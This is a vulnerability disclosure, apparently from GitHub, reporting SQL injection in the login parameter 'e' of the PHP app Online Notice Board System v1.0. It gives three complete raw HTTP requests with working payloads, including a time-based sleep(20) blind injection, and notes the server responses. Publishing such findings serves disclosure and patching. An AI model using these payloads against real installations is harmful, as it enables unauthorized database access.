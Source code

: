 # Online Notice Board System v1.0 by razormist has SQL injection

BUG_Author:Akela

vendors:https://www.sourcecodester.com/php/14317/online-notice-board-system.html

Vulnerability File: /Online Notice Board System/index.php?option=login

POST parameter 'e' exists SQL injection vulnerability

Payload1: e=1@2'&p=34&save=Login

```
POST /Online%20Notice%20Board%20System/index.php?option=login HTTP/1.1
Host: localhost
Content-Length: 23
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Online%20Notice%20Board%20System/index.php?option=login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close

e=1@2'&p=34&save=Login
```

sql statement error

![image](https://github.com/XDWHQ/pic/blob/main/err.png)

Payload2: e=1@2''&p=34&save=Login

```
POST /Online%20Notice%20Board%20System/index.php?option=login HTTP/1.1
Host: localhost
Content-Length: 23
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Online%20Notice%20Board%20System/index.php?option=login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close

e=1@2''&p=34&save=Login
```

correct page

![image](https://github.com/XDWHQ/pic/blob/main/right.png)

Payload3: e=1@2'%2b(select*from(select(sleep(20)))a)%2b'&p=34&save=Login

```
POST /Online%20Notice%20Board%20System/index.php?option=login HTTP/1.1
Host: localhost
Content-Length: 62
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://localhost
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost/Online%20Notice%20Board%20System/index.php?option=login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: PHPSESSID=h2td7dda0p1f3dha0mjlejh9vb
Connection: close

e=1@2'%2b(select*from(select(sleep(20)))a)%2b'&p=34&save=Login
```

The response from the server is 20 seconds

![image](https://github.com/XDWHQ/pic/blob/main/sleep.png)

